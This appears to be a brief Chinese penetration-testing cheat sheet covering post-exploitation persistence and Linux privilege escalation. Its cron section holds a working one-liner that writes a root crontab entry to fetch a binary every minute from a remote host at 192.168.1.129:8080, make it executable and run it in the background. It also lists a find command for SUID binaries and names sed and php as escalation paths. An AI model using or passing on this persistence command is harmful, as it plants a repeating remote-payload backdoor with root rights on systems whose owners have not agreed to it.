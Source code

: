 ### 定时任务

```
echo '* * * * * wget -qO zrVdjjYV --no-check-certificate http://192.168.1.129:8080/vHgqRFoJPuK; chmod +x zrVdjjYV; ./zrVdjjYV& disown' >> /var/spool/cron/crontabs/root
```



### suid提权

```
find / -perm -u=s -type f 2>/dev/null 先找到suid权限的程序
```

存在程序

```
sed（sed -n '1,$p' filename输出）、php
```



### 环境变量污染

```
先找到有suid文件，劫持环境变量
```

xshell 密钥类型：ECDSA比较有通用性
